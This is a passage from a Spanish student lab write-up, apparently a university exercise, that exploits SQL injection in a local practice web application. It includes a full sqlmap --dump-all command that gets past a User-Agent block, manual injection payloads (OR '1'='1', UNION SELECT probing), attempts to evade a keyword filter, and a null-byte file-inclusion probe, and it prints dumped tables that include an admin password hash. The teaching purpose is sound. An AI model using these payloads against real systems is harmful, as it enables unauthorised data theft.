sqlmap -u "http://localhost:8000/departamento.php?departamento=1" --batch --dump-all --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36" -v 3 2>&1 | tee sqlmap_departamentos.log
```

El significado de cada parámetro empleado es el siguiente:

- **`u "..."`**: la URL objetivo con el parámetro `departamento` ya identificado como vulnerable en la fase manual.
- **`-batch`**: ejecuta la herramienta de forma desatendida, asumiendo siempre la opción por defecto ante cualquier pregunta interactiva, necesario para un proceso automatizado sin supervisión continua.
- **`-dump-all`**: una vez confirmada la inyección, extrae el contenido completo de todas las tablas de todas las bases de datos a las que el usuario de la base de datos tenga acceso, no solo de la base de datos de la aplicación.
- **`-user-agent="..."`**: fuerza el User-Agent indicado, evitando el bloqueo de nginx detectado en el intento anterior.
- **`v 3`**: nivel de detalle 3, que registra en el log también las peticiones HTTP individuales lanzadas durante las pruebas, no solo el resultado final.
- **`2>&1 | tee sqlmap_departamentos.log`**: redirige tanto la salida estándar como los mensajes de error a un archivo de log (además de mostrarlos por pantalla), que se adjunta junto con este documento en la entrega.

Con esta configuración, SQLmap confirma la inyección en el parámetro `departamento` y procede a volcar el contenido de todas las bases de datos accesibles. El proceso tarda varios minutos, ya que prueba de forma exhaustiva múltiples técnicas de inyección (booleana, basada en errores, UNION, basada en tiempo) y, tras confirmar la vulnerable, recorre absolutamente todas las bases de datos y tablas visibles para el usuario de la conexión, incluidas las propias del motor MariaDB (`information_schema`, `mysql`, `sys`, `performance_schema`), generando un volumen de información considerablemente mayor que el extraído manualmente. Los resultados se guardan organizados por base de datos y tabla en archivos `.csv`, en la ruta indicada por la propia herramienta al finalizar la ejecución.

#### Comparación con la extracción manual

Revisando los archivos generados, se confirma que SQLmap recupera correctamente toda la información ya obtenida de forma manual en las bases de datos `uoc`, `Empleados` y `expedientes`:

```
id,descr
0,Informatica
1,Ciberseguridad
2,Humanidades
3,Ingenieria software
```

```
id,nota,nombre,expediente
0,7.8,luis,11111
0,9.1,pablo,222333
0,3.4,milton,543434
0,5.4,maria,309439
0,4.4,pepe,23223
0,8.4,isabel,23656
```

Sin embargo, al comparar en detalle, SQLmap obtiene efectivamente **más información** de la que había conseguido de forma manual, por varios motivos:

**1. Bases de datos completas que no llegué a explorar.** Durante la extracción manual había detectado la existencia de las bases de datos `facturas` y `logins` al listar `information_schema.schemata`, pero no profundicé en su contenido por centrarme en responder a las preguntas del enunciado. SQLmap sí las ha volcado por completo:

```
id,fecha,total,cliente,numero_factura
1,2025-08-01,120.50,Cliente A,F001
2,2025-08-05,300.75,Cliente B,F001
3,2025-08-10,215.00,Cliente C,F001
4,2025-08-15,450.00,Cliente D,F001
5,2025-08-20,125.60,Cliente E,F001
```

Llama la atención que todas las facturas comparten el mismo `numero_factura` (“F001”) pese a corresponder a clientes y fechas distintas, otra anomalía de datos similar a la detectada en la tabla `expedientes`.

En la base de datos `logins` aparece una tabla `usuarios` completamente distinta a la tabla `users` de `uoc` ya analizada, con un único registro:

```
id,usuario,contrasena
1,admin,f02d41d7abb33a7ee72e0c6a998c0f2910294088
```

Se trata de un usuario administrador con un hash de 40 caracteres (frente a los 32 caracteres de los hashes MD5 vistos en `uoc.users`), lo que sugiere un algoritmo distinto, probablemente SHA-1.

**2. Tablas completas dentro de bases de datos que sí exploré, pero de forma parcial.** En `Empleados`, durante la fase manual solo consulté el cargo y el salario correspondientes a “Mantenimiento” mediante una cláusula `WHERE`, para responder directamente a la pregunta del enunciado. SQLmap, en cambio, vuelca la tabla completa, revelando los datos de todos los cargos:

```
id_cargo,descripcion,nombre_cargo
1,Encargado de impartir clases y dirigir proyectos académicos,Profesor Titular
2,Apoya en la enseñanza y tutorías,Profesor Asistente
3,Supervisa profesores y proyectos académicos,Director de Departamento
4,Gestión de recursos y apoyo administrativo,Personal Administrativo
5,Encargado del mantenimiento y limpieza del campus,Mantenimiento
```

```
id_cargo,id_salario,bono,salario_base
1,1,500.00,4500.00
2,2,300.00,3200.00
3,3,1000.00,6000.00
4,4,200.00,2500.00
5,5,99.99,1800.00
```

De forma similar, en la base de datos `expedientes` solo había explorado la tabla `expedientes_historial`; SQLmap recupera además la tabla `expedientes_info`, que no llegué a descubrir:

```
id,estado,descripcion,fecha_apertura,codigo_expediente
1,Abierto,Expediente inicial,2023-01-01,E001
2,Cerrado,Seguimiento mensual,2023-02-15,E002
3,Pendiente,Revisión anual,2023-03-20,E003
4,Archivado,Archivo final,2023-04-25,E004
5,Abierto,Consulta externa,2023-05-30,E005
```

Comparando el `id` de esta tabla con el `expediente_id` de `expedientes_historial`, se observa que ambas tablas están relacionadas entre sí: por ejemplo, el expediente con `id=4` tiene `estado=Archivado`, lo que es coherente con la acción `Archivo` registrada para el `expediente_id=4` en el historial.

**3. Detalles que se me pasaron por alto en datos ya extraídos manualmente.** Al comparar el volcado de la tabla `users` de `uoc`, SQLmap muestra el hash de la usuaria “lolita” con un fragmento adicional de texto que no advertí en la extracción manual:

```
pass,user
abf8412b7c606f8acd8b58968e9b4733,jacinto
79b35a8a38b485c82bb351ad94f966df,luisito
d6d85d89b4612501521435bd3f620a9a (grado),lolita
```

En la extracción manual solo capturé el hash limpio (`d6d85d89b4612501521435bd3f620a9a`), sin reparar en el texto `(grado)` añadido a continuación, probablemente porque el desplegable del navegador cortaba visualmente el contenido.

**Una limitación detectada:** SQLmap no logra acceder al contenido de la base de datos `mydatabase`, que sí había aparecido en el listado de `information_schema.schemata` obtenido manualmente. Esto se debe probablemente a que el usuario con el que la aplicación se conecta a MariaDB no dispone de permisos sobre esa base de datos en concreto.

**Nota sobre codificación:** en los volcados de `Cargos` y `expedientes_historial`, los caracteres acentuados aparecen corruptos (por ejemplo, `académicos` se muestra como `académicos`). Se trata de un problema de codificación de caracteres (texto UTF-8 interpretado incorrectamente como Latin-1 al generar el fichero CSV) achacable a la propia herramienta, no a la base de datos ni a los datos originales.

#### Conclusión de la comparación

La extracción manual permitió responder de forma dirigida a las preguntas concretas del enunciado (1a, 1b, 1c) y detectar la anomalía de los `id` en `0` en la tabla `expedientes`, pero quedó limitada por el alcance que decidí explorar en cada momento. SQLmap, en cambio, al volcar sistemáticamente todas las bases de datos y tablas accesibles, obtiene un conjunto de datos más completo: descubre dos bases de datos enteras no exploradas (`facturas`, `logins`), con un usuario administrador adicional y otra anomalía de datos (`numero_factura` repetido), además de completar tablas que solo había consultado parcialmente. A cambio, requiere bastante más tiempo de ejecución y, en este caso concreto, tropezó inicialmente con un filtro de seguridad básico (bloqueo por User-Agent) que la extracción manual, al realizarse desde un navegador convencional, no llegó a encontrar en ningún momento.

El archivo de log completo de la ejecución de SQLmap (`sqlmap_departamentos.log`) se adjunta junto con este documento en la entrega. En este repositorio está en [`sqlmap_departamentos_sanitized.log.gz`](./sqlmap_departamentos_sanitized.log.gz), comprimido por su tamaño (descomprimido ocupa unos 108 MB).

#### Enlace Notas Disponibles

Accediendo al enlace “Notas Disponibles” encuentro un formulario distinto al del ejercicio anterior, ubicado en `consultar_notas.php`, con un único campo de texto llamado “Expediente” y un botón “Buscar”.



Al introducir un valor de prueba y pulsar “Buscar”, observo que la petición resultante es:

```
http://localhost:8000/notas.php?expediente=11111&file=nota.php
```

Dos detalles llaman la atención de inmediato. Primero, a diferencia de `departamento.php`, aquí hay dos parámetros: `expediente` y `file`. Inspeccionando el código fuente del formulario confirmo que `file` es un campo oculto (`<input type="hidden" name="file" value="nota.php">`), lo que sugiere que `notas.php` incluye dinámicamente el contenido de otro script PHP indicado por ese parámetro, muy probablemente mediante una función como `include()`, y que `nota.php` es el fichero real donde reside la lógica de consulta de notas. Esta pista resulta clave más adelante, ya que es la base de la vulnerabilidad de Path Traversal / LFI que se explota en el tercer ejercicio; de momento me centro en el parámetro `expediente`.

El segundo detalle es que, con `expediente=11111` (un valor de expediente que sé que existe, de la tabla analizada en el ejercicio anterior), la página no muestra ningún dato, solo la cabecera UOC y el título “Consulta de Notas” vacío.



#### Confirmación de la vulnerabilidad: por qué el método anterior no funciona aquí

Intento repetir la misma comprobación booleana que utilicé en “Departamentos” (`and 1=1` frente a `and 1=2`), pero en ambos casos la página sigue sin mostrar nada, de forma idéntica:

```
http://localhost:8000/notas.php?expediente=11111 and 1=1&file=nota.php
http://localhost:8000/notas.php?expediente=11111 and 1=2&file=nota.php
```





Que ambas pruebas, pese a ser lógicamente opuestas, den el mismo resultado (nada) tiene una explicación: a diferencia de `departamento.php`, donde el parámetro se concatenaba directamente sin comillas en la consulta SQL, aquí el valor de `expediente` probablemente se inserta entre comillas (`WHERE expediente='$valor'`). Al escribir `11111 and 1=1` sin cerrar yo mismo esa comilla, toda la cadena `11111 and 1=1` se interpreta como un único valor de texto literal, no como código SQL, y la base de datos simplemente busca un expediente que se llame exactamente así, que por supuesto no existe. Es decir, ninguna de las dos pruebas estaba inyectando realmente nada; ambas buscaban una cadena de texto inexistente.

Para confirmar la inyección de forma correcta, construyo una condición que cierre explícitamente la comilla abierta por la aplicación y añada una condición siempre verdadera:

```
http://localhost:8000/notas.php?expediente=x' OR '1'='1' -- &file=nota.php
```

El resultado es contundente: la página devuelve el listado completo de la tabla, sin que el valor de expediente (“x”) tenga ninguna relación con los datos existentes.



Esto confirma la inyección SQL en el parámetro `expediente`, y de paso revela una diferencia importante respecto al ejercicio anterior: aquí la aplicación no muestra ningún mensaje de error SQL en ningún momento (ni siquiera al introducir una comilla simple suelta), por lo que estoy ante una inyección de tipo ciego o silencioso, en contraposición a la inyección basada en errores que encontré en “Departamentos”.

#### Qué he extraído: una tabla de alumnos completamente distinta

El resultado de esta consulta revela 9 registros con nombre, expediente y nota:

```
Luis    - 2025_expediente1 - 18.7
Grace   - 2025_expediente2 - 88.9
Milton  - 2025_expediente3 - 53.3
Hedy    - 2025_expediente4 - 94.5
Pepe    - 2025_expediente5 - 64.4
Margaret- 2025_expediente6 - 74.1
John    - 2025_expediente7 - 29.8
Ada     - 2025_expediente8 - 78.6
Angela  - 2025_expediente9 - 81.8
```

Esto responde directamente a lo solicitado por el enunciado (nombre, expediente y nota de los estudiantes), y permite destacar una diferencia clara respecto a los datos del ejercicio anterior: se trata de una tabla completamente distinta a la de “Departamentos”, no la misma información vista desde otro ángulo. Los nombres de alumnos no coinciden entre ambas tablas, el formato de expediente es diferente (aquí es texto con el patrón `2025_expedienteN`, frente a los números de 5-6 dígitos de la tabla anterior), y, sobre todo, las notas no respetan la escala habitual de 0 a 10 que vi en “Departamentos” (7.8, 9.1...), sino que llegan hasta 94.5, sugiriendo una escala distinta (posiblemente sobre 100) o datos puramente ficticios sin relación real entre ambas fuentes.

#### Determinación del número de columnas y exploración de un filtro de seguridad

Para profundizar en la consulta mediante `UNION SELECT`, necesito saber cuántas columnas devuelve. Dado que aquí el método de `ORDER BY` no me dio resultado alguno (probablemente por el mismo motivo que el `and 1=1`: algún problema de sintaxis con el comentario que no logré afinar), opto directamente por ir probando el número de columnas con `UNION SELECT` y valores de texto reconocibles, hasta encontrar la combinación que no rompa la consulta:

```
http://localhost:8000/notas.php?expediente=x' UNION SELECT 'a','b','c','d'-- &file=nota.php
```

Con 4 columnas de texto, la página muestra una ficha nueva con los valores inyectados en los campos correspondientes:



Esto confirma que la consulta subyacente tiene exactamente 4 columnas, y permite mapear su orden: la primera columna no se muestra en ningún campo visible (probablemente un identificador interno, de forma similar al `id` que aparecía siempre en 0 en la tabla `expedientes` del ejercicio anterior), mientras que la segunda, tercera y cuarta corresponden a Nombre, Expediente y Nota respectivamente.

Antes de intentar extraer metadatos de la base de datos (motor, nombre de la base de datos, otras tablas), compruebo primero que los valores numéricos también encajan bien en estas posiciones, sustituyendo la columna de Nota por un número sin comillas:

```
http://localhost:8000/notas.php?expediente=x' UNION SELECT 'a','b','c',5-- &file=nota.php
```


y la columna de Nombre de la misma forma:

```
http://localhost:8000/notas.php?expediente=x' UNION SELECT 'a',99,'c','d'-- &file=nota.php
```



Ambas pruebas funcionan con normalidad, confirmando que la aplicación acepta literales de texto y números indistintamente en cualquiera de las cuatro posiciones.

Sin embargo, al intentar identificar el motor de base de datos con la misma técnica empleada en “Departamentos” (`version()`, `@@version`), ninguna de las dos funciona: la página vuelve a quedarse en blanco, igual que ocurría al principio con el expediente inexistente. Indago más a fondo, sustituyendo progresivamente cada elemento de la consulta para aislar la causa, y confirmo un patrón: cualquier literal de texto o número funciona sin problema, pero en cuanto introduzco una función con paréntesis (`version()`, `database()`, `user()`) o una variable de sistema (`@@version`), la consulta deja de devolver resultados. Intento también evadir este comportamiento con técnicas de ofuscación mediante comentarios intercalados dentro de las palabras sospechosas, sin éxito.

Profundizando más, descubro que el bloqueo no se limita a las funciones de identificación: la propia palabra clave `FROM` también queda bloqueada en cuanto aparece en la consulta inyectada, incluso al referenciar una pseudo-tabla neutral como `dual`, o tablas de sistema conocidas como `information_schema.tables` o `mysql.db`. El bloqueo es insensible a mayúsculas y minúsculas, y resiste la técnica de partir la palabra con comentarios SQL (`FR/**/OM`), lo que descarta que se trate de una simple comparación de texto literal y apunta a un filtro algo más elaborado, posiblemente normalizando el contenido antes de buscar coincidencias.

En cambio, compruebo que otras palabras clave SQL sí están permitidas sin problema, como `WHERE` o una subconsulta `SELECT` encerrada entre paréntesis sin `FROM` (`(SELECT 1)`), así como los comentarios `/**/` quedando vacíos.

Esto revela una diferencia muy relevante respecto al ejercicio de “Departamentos”, donde no existía ningún tipo de filtro ni restricción: en ese caso pude listar libremente `information_schema`, descubrir otras bases de datos del servidor y navegar entre ellas sin ningún obstáculo. Aquí, en cambio, la aplicación (o algún mecanismo de defensa delante de ella) bloquea específicamente cualquier intento de salir de la tabla actual mediante `FROM` o de identificar el sistema mediante funciones y variables conocidas, aunque sigue permitiendo construir lógica dentro de la propia consulta y, sobre todo, sigue permitiendo la técnica `UNION SELECT` para volcar el contenido íntegro de la tabla de notas en curso, que es precisamente el dato que ya había extraído con el `OR '1'='1'` inicial.

#### Una pista adicional sobre el parámetro `file`

Aprovechando que ya tengo controlado el parámetro `expediente`, realizo una última comprobación sobre el parámetro `file`, relevante para el ejercicio de Path Traversal que se aborda a continuación. Al añadir un byte nulo (`%00`) al final del nombre de fichero:

```
http://localhost:8000/notas.php?expediente=11111&file=nota.php%00
```

el comportamiento de la página cambia: desaparece incluso el título “Consulta de Notas” que sí aparecía con `file=nota.php` normal, quedando el recuadro principal completamente vacío.


Esta diferencia de comportamiento confirma que el parámetro `file` está realmente condicionando qué contenido se incluye en la página (reforzando la hipótesis de un `include()` dinámico), aunque la técnica del byte nulo en concreto no haya producido en este caso una divulgación de información adicional, al tratarse de una técnica ya obsoleta en las versiones modernas de PHP. Profundizo en esta vulnerabilidad en el ejercicio siguiente.

#### Conclusión

La extracción de información en “Notas Disponibles” revela una tabla de 9 estudiantes con nombre, expediente y nota, completamente distinta a la analizada en “Departamentos” tanto en contenido como en formato de los datos (expedientes en texto frente a numéricos, y notas fuera de la escala 0-10 habitual). A nivel de explotación, la diferencia principal respecto al ejercicio anterior es doble: por un lado, la inyección aquí es ciega y silenciosa en lugar de basada en errores, lo que exige cerrar explícitamente las comillas de la consulta en lugar de depender de condiciones booleanas numéricas; por otro, la aplicación incorpora un filtro de seguridad que bloquea específicamente la palabra clave `FROM` y las funciones y variables de reconocimiento del sistema, impidiendo escapar de la tabla de notas para explorar el resto de la base de datos, algo que en “Departamentos” fue posible sin ninguna restricción.

### Ejercicio 2 - Página login.php

Accedo a `http://localhost:8000/login.php` y encuentro un formulario de autenticación clásico, con campos “Usuario” y “Contraseña” y un botón “Iniciar Sesión”.


Revisando el código fuente del formulario confirmo que los campos se llaman `usuario` y `password`, y que el método de envío es **POST** (a diferencia de los ejercicios anteriores, basados en GET), por lo que no puedo construir la inyección simplemente editando la URL: tengo que escribirla directamente en los campos del formulario.

#### Confirmación de la vulnerabilidad

Pruebo primero con una comilla simple en el campo Usuario (`atorresans'`) y cualquier valor en Contraseña:

